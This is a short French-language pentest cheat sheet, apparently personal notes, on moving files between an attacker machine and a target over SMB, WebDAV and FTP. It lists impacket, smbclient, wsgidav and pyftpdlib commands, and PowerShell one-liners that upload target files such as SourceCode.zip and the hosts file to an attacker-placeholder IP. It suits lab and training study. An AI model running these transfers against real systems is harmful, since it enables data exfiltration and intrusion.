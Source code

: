 ###### SMB
 - SMB (Server Message Block) Protocol run on Port 445 

```bash
# creation d'un serveur SMB sur la machine de l'attaquant 
sudo impacket-smbserver share -smb2support /tmp/smbshare
# téléchargement sur la machine cible
copy \\<AttaquantIP>\share\<Filename>

#bypasser authentification
# sur la machine de l'attaquant
sudo impacket-smbserver share -smb2support /tmp/smbshare -user <CustomUser> -password <CustomPass>
# sur la machine distante
net use n: \\<AttaquantIP>\share /user:<CustomUser> <CustomPass>


# enumerate shares in smb 
smbclient -N -L \\\\<IP Address>
# se connecter en tant qu'utilisateur
smbclient -U <Username> \\\\<IP Address>\\<Sharename>

```

- SMB Upload
```bash
# install dépendance
sudo pip install wsgidav cheroot
# use smb server
sudo wsgidav --host=0.0.0.0 --port=<80 | PORT> --root=/tmp --auth=anonymous
# chez la cible ( powershell)
dir \\<AttaquantIP>\DavWWWRoot

# upload de la cible vers l'attaquant
copy <C:\Users\john\Desktop\SourceCode.zip | FilePath> \\<IP>\DavWWWRoot\

```


###### FTP

```bash
# installer les dépendances
sudo pip3 install pyftpdlib
# specifier le port 21 car par défaut c'est le port 2121
sudo python3 -m pyftpdlib --port 21
# se connecter sur l'attaquant avec la cible
(New-Object Net.WebClient).DownloadFile('ftp://<AttaquantIP>/<FileName>', '<FileNameOnTarget>')
```

* ftp upload

```bash
# allow upload with --write
sudo python3 -m pyftpdlib --port 21 --write
# on target powershell
(New-Object Net.WebClient).UploadFile('ftp://<IP>/<FileName>', '<C:\Windows\System32\drivers\etc\hosts | FilePath>')

```
